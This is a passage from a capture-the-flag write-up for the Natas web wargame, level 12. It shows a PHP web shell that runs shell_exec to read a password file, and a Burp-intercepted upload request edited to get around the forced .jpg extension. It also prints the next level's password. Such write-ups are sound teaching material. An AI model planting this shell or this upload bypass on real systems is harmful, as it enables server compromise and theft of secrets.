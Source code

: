 It seems as if the code is taking the uploaded file, creating a random name and path, and adding a preset extension - which we can assume is __.jpeg__.

The first thing that I can think of, off the top of my head is an [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload). So let's go ahead and test for this vulnerability. We can begin by creating a simple PHP Shell that will echo back the contents of __/etc/natas_webpass/natas13__.

```php
<?
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>
```

Once done, save it as __shell.php__. Go back to the website, click __Browse__ and select our shell. BUT! Before you click __Upload__, fire up Burp and set up the Burp Proxy to intercept packets. Once done, click __Upload__.

Looking at the Burp Intercept, towards the bottom of the page, we can see the following lines:

```js
Content-Disposition: form-data; name="filename"

zvot8u94ri.jpg
-----------------------------15512856191759264131314404296
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: application/x-php

<?
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output<pre>";
?>

-----------------------------15512856191759264131314404296--
```

We can see that our filename is being changed to __.jpg__ and being renamed. So let's edit that back to __shell.php__, and forward the packet. You should see something along the lines of "__The file upload/etgklnh5pq.php has been uploaded__" come up.

<a href="/images/natas12-3.PNG"><img src="/images/natas12-3.PNG"></a>

Go ahead and click the __upload/yh33kxvyt8.php__ link, and we should get the password `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.

Good job! Not as hard as 11... let's move on to level 13!

### Level 13:
<a href="/images/natas13.PNG"><img src="/images/natas13.PNG"></a>

